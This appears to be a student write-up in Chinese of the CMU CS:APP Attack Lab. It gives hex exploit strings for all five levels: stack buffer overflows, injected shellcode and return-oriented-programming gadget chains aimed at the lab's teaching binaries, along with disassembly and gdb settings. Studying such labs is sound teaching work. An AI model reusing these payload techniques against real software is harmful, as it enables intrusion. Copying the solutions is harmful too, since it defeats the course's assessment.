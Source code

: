 # Attack Lab

- [README](https://csapp.cs.cmu.edu/3e/README-attacklab)
- [ASCII Table](https://www.asciitable.com/)
- [writeup](./attacklab.pdf) 

## Level 1

目标是通过缓冲区溢出的方式令 `getbuf` 函数返回至 `touch1` 函数。

通过 `objdump` 获 `GDB` 可以得到 touch1 函数的首地址为 `0x00000000004017c0`。

根据 `getbuf` 函数的汇编代码可以看出该函数的缓冲区大小为 `0x28`，可以判定只要输入字符串超过 `40(0x28)` bytes 即可实现缓冲区溢出，从而覆盖 `getbuf` 函数的返回地址。

``` asm
0x00000000004017a8 <+0>: sub    $0x28,%rsp
0x00000000004017ac <+4>: mov    %rsp,%rdi
0x00000000004017af <+7>: callq  0x401a40 <Gets>
0x00000000004017b4 <+12>:  mov    $0x1,%eax
0x00000000004017b9 <+17>:  add    $0x28,%rsp
0x00000000004017bd <+21>:  retq
```

可以构造如下题解通过此题目。

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
c0 17 40 00 00 00         /* The address of touch1 */
```

.gdbinit 配置：

``` GDB
b *0x00000000004017b4
run -q < ./input.txt
x/xg 0x5561dca0
x/6xg $rsp
x/xg $rsp+0x28
```

## Level 2

目标是通过缓冲区溢出的方式令 `getbuf` 函数返回至 `touch2` 函数，并且 `touch2` 函数的入参必须是 `0x59b997fa`（cookie.txt）。

根据 Level 1，可如下构造输入令 `getbuf` 函数返回至 `touch2` 函数。

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
ec 17 40 00 00 00
```

通过下面汇编代码将 `touch2` 函数的入参设置为 `0x59b997fa`。

``` asm
0: bf fa 97 b9 59        mov    $0x59b997fa,%edi
5: 48 83 c4 10           add    $0x10,%rsp
9: c3                    retq
```

最终可以构造如下题解通过此题目。

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
a8 dc 61 55 00 00 00 00   /* The address of the following asm code */
bf fa 97 b9 59            /* mov    $0x59b997fa,%edi */ 
48 83 c4 10               /* add    $0x10,%rsp */
c3                        /* ret */ 
00 00 00 00 00 00         /* Padding 0 */
ec 17 40 00 00 00 00 00   /* The address of touch2 */
```

.gdbinit 配置：

```
b *0x00000000004017b9
run -q < ./input.txt
x/10xg $rsp
```

## Level 3

可以构造如下题解通过此题目，关键是让 `touch3` 函数的地址小于 cookie 地址，这样后续函数对栈的操作不会覆盖 cookie。

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
fa 18 40 00 00 00 00 00     /* The address of touch3 */
a8 dc 61 55 00 00 00 00     /* The address of the following asm code */
bf b8 dc 61 55              /* mov    $0x5561dcb8,%edi */ 
48 83 ec 10                 /* sub    $0x10,%rsp */
c3                          /* ret */ 
00 00 00 00 00 00           /* Padding 0 */
35 39 62 39 39 37 66 61     /* cookie */
```

## Level 4

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
cc 19 40 00 00 00 00 00   /* The address of asm code (0x4019cc): popq %rax (58 90 c3) */
fa 97 b9 59 00 00 00 00   /* cookie */
c6 19 40 00 00 00 00 00   /* The address of asm code (0x4019c6): movl %eax,%edi (89 c7 90 c3) */
ec 17 40 00 00 00 00 00   /* The address of touch2 */
```

## Level 5

解决这一关的关键是利用 `lea (%rdi,%rsi,1),%rax (address: 0x4019d6)` 指令构造出 cookie 所在地址。

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
06 1a 40 00 00 00 00 00   /* The address of asm code (0x401a06): movl %rsp,%rax (48 89 e0 c3) */
c5 19 40 00 00 00 00 00   /* The address of asm code (0x4019c5): movl %rax,%rdi (48 89 c7 90 c3) */
cc 19 40 00 00 00 00 00   /* The address of asm code (0x4019cc): popq %rax (58 90 c3) */
48 00 00 00 00 00 00 00   /* The offset of cookie */
42 1a 40 00 00 00 00 00   /* The address of asm code (0x401a42): movl %eax,%edx (89 c2 84 c0 c3) */ 
34 1a 40 00 00 00 00 00   /* The address of asm code (0x401a34): movl %edx,%ecx (89 d1 38 c9 c3) */
13 1a 40 00 00 00 00 00   /* The address of asm code (0x401a13): movl %ecx,%esi (89 ce 90 90 c3) */ 
d6 19 40 00 00 00 00 00   /* The address of asm code (0x4019d6): lea    (%rdi,%rsi,1),%rax (48 8d 04 37) */
c5 19 40 00 00 00 00 00   /* The address of asm code (0x4019c5): movl %rax,%rdi (48 89 c7 90) */
fa 18 40 00 00 00 00 00   /* The address of touch3 */
35 39 62 39 39 37 66 61   /* cookie */
```